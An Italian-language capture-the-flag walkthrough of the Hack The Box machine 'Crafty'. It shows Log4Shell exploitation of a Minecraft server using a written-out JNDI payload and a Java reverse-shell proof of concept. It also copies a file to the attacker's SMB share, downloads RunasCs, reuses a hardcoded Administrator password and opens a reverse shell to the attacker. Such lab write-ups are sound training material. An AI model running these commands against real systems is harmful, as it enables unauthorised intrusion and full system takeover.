



** TARGET: 10.10.11.249**

# INFORMATION GATHERING

Per prima cosa eseguiamo un scan base con [Nmap](Note/Tool/Nmap.md)

```shell-session 
┌──(root㉿kali)-[/home/kali]
└─# nmap 10.10.11.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 14:28 CEST
Nmap scan report for 10.10.11.249
Host is up (0.039s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.01 seconds

┌──(root㉿kali)-[/home/kali]
└─# nmap -sTVC 10.10.11.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 14:29 CEST
Nmap scan report for 10.10.11.249
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://crafty.htb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Questo primo scan ci suggerisce che abbiamo solo una porta aperta la numero 80 e che ci troviamo difronte ad un server Windows.

Lanciamo un ulteriore scan su tutte le porte per vedere se abbiamo ulteriori superfici di attacco 

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- -min-rate=5000 10.10.11.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 14:29 CEST
Nmap scan report for 10.10.11.249
Host is up (0.16s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
25565/tcp open  minecraft

Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds

┌──(root㉿kali)-[/home/kali]
└─# nmap -sTCV -p 25565 10.10.11.249
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-01 14:31 CEST
Nmap scan report for 10.10.11.249
Host is up (0.038s latency).

PORT      STATE SERVICE   VERSION
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.65 seconds
```

Quindi ricapitolando abbiamo 2 porte aperte

- 80 http Microsoft IIS httpd 10.0
-  25565 Minecraft 1.16.5 

# ENUMERATION

## Port 80

Una volta aggiunto `crafty.htb` al nostro `/etc/host` visitiamo http://crafty.htb

Il server web ospita un sito web di un server Minecraft, con collegamenti a negozi, forum e votazioni, che arriveranno presto. Non c'è nient'altro da enumerare qui, quindi diamo un'occhiata alla
## Port 25565 

### Log4Sell

Sappiamo che la versione è 1.16.5 , secondo l'output di nmap. La ricerca di exploit
ci porta a [questo link](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition). Minecraft ha annunciato che l'exploit di Log4Shell è stato scoperto su più versioni del loro gioco in edizione server e consiglia di aggiornare.
Per verificare se possiamo sfruttare questo server, dobbiamo scaricare un client Minecraft compatibile con questa versione. Possiamo scaricare un client di base [qui](https://github.com/MCCTeam/Minecraft-Console-Client/releases/download/20231011-230/MinecraftClient-20231011-230-linux-x64). Proviamo a utilizzare una password vuota per verificare se è richiesta l'autenticazione.

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# ./MinecraftClient-20240415-263-linux-x64 xrabbit "" 10.10.11.249
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Password(invisible):
You chose to run in offline mode.
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
```

bene abbiamo una connessione con il server

# GAINING AN INITIAL FOOTHOLD 


Il problema con Log4Shell è che il modulo di registrazione Log4J non gestisce bene il modello `${[stuff]}`. Inserendo un URL JNDI/LDAP in quel modello, il logger recupererà i dati da un server arbitrario e, se si tratta di Java serializzato, ciò porterà all'esecuzione.

**Prova di vulnerabilità**

Per verificarlo, invierò l'ascolto sulla porta TCP 389 (LDAP predefinita) con nc e quindi inserirò un payload che tenterà di contattare il mio host su 443:

`${jndi:ldap://10.10.14.6/test}`

Se c'è una connessione al mio host, è probabile che il server sia vulnerabile a Log4Shell. Al momento dell'invio, ottengo una connessione:

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# nc -lnvp 389 
Listening on 0.0.0.0 389 
Connection received on 10.10.11.249 49682 
0
```

Sembrebbe vulnerabile
### Log4Shell Exploit

Cercando il rete troviamo questo [poc](https://github.com/kozmer/log4j-shell-poc)
Lo scarichiamo e installiamo le dipendenze
```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# git clone https://github.com/kozmer/log4j-shell-poc.git Cloning into 'log4j-shell-poc'... remote: Enumerating objects: 52, done. remote: Counting objects: 100% (12/12), done. remote: Compressing objects: 100% (12/12), done. remote: Total 52 (delta 0), reused 1 (delta 0), pack-reused 40 Receiving objects: 100% (52/52), 38.74 MiB | 44.42 MiB/s, done. Resolving deltas: 100% (7/7), done. 

┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# cd log4j-shell-poc/ 

┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# pip install -r requirements.txt 
Defaulting to user installation because normal site-packages is not writeable Requirement already satisfied: colorama in /usr/lib/python3/dist-packages (from -r requirements.txt (line 1)) (0.4.4) Collecting argparse Using cached argparse-1.4.0-py2.py3-none-any.whl (23 kB) Installing collected packages: argparse Successfully installed argparse-1.4.0
```

Ci sono anche istruzioni sul repository per scaricare uno specifico binario Java da questa pagina. Scaricherò jdk-8u20-linux-x64.tar.gz  lo estrarrerò:

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# tar xf jdk-8u20-linux-x64.tar.gz 

┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# rm jdk-8u20-linux-x64.tar.gz 

┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# ls 
Dockerfile jdk1.8.0_20 LICENSE poc.py README.md requirements.txt target vulnerable-application
```

> [!NB] per scaricare il binario server un accunt Oracale che si può fare gratuitamente

Siamo pronti per eseguire il nostro exploit

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.15 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.15:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.15:8000/Exploit.class
10.10.11.249 - - [01/Jul/2024 23:06:07] "GET /Exploit.class HTTP/1.1" 200 -
```

dove: 
-  `-- userip` è il nostro ip
-  `-- webport 8000` è il webserver LDAP in ascolto
-  `--lport 443` è il nostro nc in ascolto per ricevere la shell

inseriamo dal nostro client mincraft url JDNI/LDAP generato dal poc 

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# ./MinecraftClient-20240415-263-linux-x64 xrabbit "" 10.10.11.249
Minecraft Console Client v1.20.4 - for MC 1.4.6 to 1.20.4 - Github.com/MCCTeam
GitHub build 263, built on 2024-04-15 from commit 403284c
Password(invisible):
You chose to run in offline mode.
Retrieving Server Info...
Server version : 1.16.5 (protocol v754)
[MCC] Version is supported.
Logging in...
[MCC] Server is in offline mode.
[MCC] Server was successfully joined.
Type '/quit' to leave the server.
${jndi:ldap://10.10.14.15:1389/a}
```

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.15 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.15:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.15:8000/Exploit.class
10.10.11.249 - - [01/Jul/2024 23:06:07] "GET /Exploit.class HTTP/1.1" 200 -
```

abbiamo la richiesta ma non riceviamo nessuna shell indietro.

### Correzione PoC

Andando a vedere `poc.py` possiamo notare che nella funzione `generate_payload` 
abbiamo `String cmd="/bin/sh";`

```bash
..<snip>..
def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
..<snip>..
```

ora in ambiente windows non funziona dobbiamo sostituirlo con `String cmd="cmd.exe";`

Siamo pronti ad eseguire di nuovo  il nostro exploit corretto.

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.15 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.15:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.15:8000/Exploit.class
10.10.11.249 - - [01/Jul/2024 23:06:07] "GET /Exploit.class HTTP/1.1" 200 -
```

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.249] 49681
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft

c:\users\svc_minecraft\server>
```

Siamo dentro e ci prendiamo la nostra user flag 
```shell-session
c:\Users\svc_minecraft\Desktop>type user.txt
type user.txt
8e7f4c510edf34d8b63262483ff20060
```

# PRIVES

L'esecuzione dei nostri normali controlli non mostra nulla di valore, quindi controllando la directory `c:\Users\svc_minecraft\server\plugins>`  scopriamo che esiste un file
file, `playercounter-1.0-SNAPSHOT.jar`che sembrerebbe essere un plugin personalizzato.

Il prossimo passo è quello di  esfiltrarlo per esaminarlo , avvierò un server SMB con smbserver.py di Impacket

```shell-session

┌──(root㉿kali)-[/home/kali/htb/crafty]
└─# smbserver.py share . -smb2support -username xrabbit -password xrabbit
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

e dalla nostra shell lo copiamo

```shell-session
c:\Users\svc_minecraft\server\plugins>net use \\10.10.14.15 /u:xrabbit xrabbit
net use \\10.10.14.15 /u:xrabbit xrabbit
The command completed successfully.


c:\Users\svc_minecraft\server\plugins>copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.15\share\
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.15\share\
```

Ora che abbiamo un file jar valido possiamo utilizzare un decompilatore online come [questo](http://www.javadecompilers.com) per decompilare il plugin nel codice sorgente.



rkon è una libreria pubblica per il protocollo Source RCON, progettata per server di gioco. Dai documenti:

`Il protocollo Source RCON è un protocollo di comunicazione basato su TCP/IP utilizzato dal Source Dedicated Server, che consente l'invio dei comandi della console al server tramite una "console remota" o RCON. L'uso più comune di RCON è consentire ai proprietari dei server di controllare i propri server di gioco senza accesso diretto alla macchina su cui è in esecuzione il server. Affinché i comandi possano essere accettati, la connessione deve prima essere autenticata utilizzando la password RCON del server, che può essere impostata utilizzando la variabile della console rcon_password.

Il file Playercounter.class ha la parte principale del plugin:


```java
    package htb.crafty.playercounter;

import java.io.IOException;
import java.io.PrintWriter;
import net.kronos.rkon.core.Rcon;
import net.kronos.rkon.core.ex.AuthenticationException;
import org.bukkit.plugin.java.JavaPlugin;

public final class Playercounter extends JavaPlugin {
   public void onEnable() {
      Rcon rcon = null;

      try {
         rcon = new Rcon("127.0.0.1", 27015, "s67u84zKq8IXw".getBytes());
      } catch (IOException var5) {
         throw new RuntimeException(var5);
      } catch (AuthenticationException var6) {
         throw new RuntimeException(var6);
      }

      String result = null;

      try {
         result = rcon.command("players online count");
         PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");
         writer.println(result);
      } catch (IOException var4) {
         throw new RuntimeException(var4);
      }
   }

   public void onDisable() {
   }
}
```

Si connette a rkon sulla porta 27015 con la password "s67u84zKq8IXw". In teoria si tratta dell'aggiornamento di playercount.txt nella directory web, sebbene quel file in realtà non esista su Crafty.

Ora l'idea è che quella password sia quella dell'amministratore ma senza accesso a SMB, LDAP, WinRM, Kerberos o qualsiasi altro servizio Windows autenticato, non ho un buon modo per verificare questa password dal mio host. Caricherò una copia di RunasCs scaricando una copia dalle versioni e ospitandola sul mio server web Python. Quindi, da una directory in cui svc_minecraft può scrivere (mi piace uscire da C:\Users\Public\), posso richiederlo a Crafty:

```shell-session
PS C:\Users\Public> iwr http://10.10.14.15:80/RunasCs.exe -O RunasCs.exe
iwr http://10.10.14.15:80/RunasCs.exe -O RunasCs.exe
PS C:\Users\Public> dir
dir


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        4/10/2020  10:47 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-r---        9/15/2018  12:19 AM                Videos
-a----         7/2/2024   2:37 AM          51712 RunasCs.exe
```

Non ci resta che eseguirlo per vedere se la nostra teoria è corretta

La sintassi di base è `.\RunasCs.exe <nome_utente> <password> <cmd> 

```shell-session
PS C:\Users\Public> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"

crafty\administrator
PS C:\Users\Public>
```

Perfetto funziona.

RunasCs ha un opzione `-r` che richiede un IP e una porta a cui connettere stdin, stdout e stderr del processo risultante, che funziona in modo molto simile a una shell inversa
quindi non ci rimane che metterci in ascolto con il nostro nc e eseguire RunasCs con la flag -r

```shell-session
PS C:\Users\Public> .\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.15:2345
.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.15:2345

[+] Running in session 1 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 4040 created in background.
```

e sul nostro nc abbiamo la finalmente la nostra rootshell

```shell
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/RunasCs]
└─# nc -nlvp 2345
listening on [any] 2345 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.249] 49684
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
crafty\administrator

C:\Windows\system32>
```

e ci prendiamo la nostra root flag

```shell-session
C:\Users\Administrator\Desktop>type root.txt
type root.txt
a95b4df0c6c4905e00ac5291ddd9b9bf
```
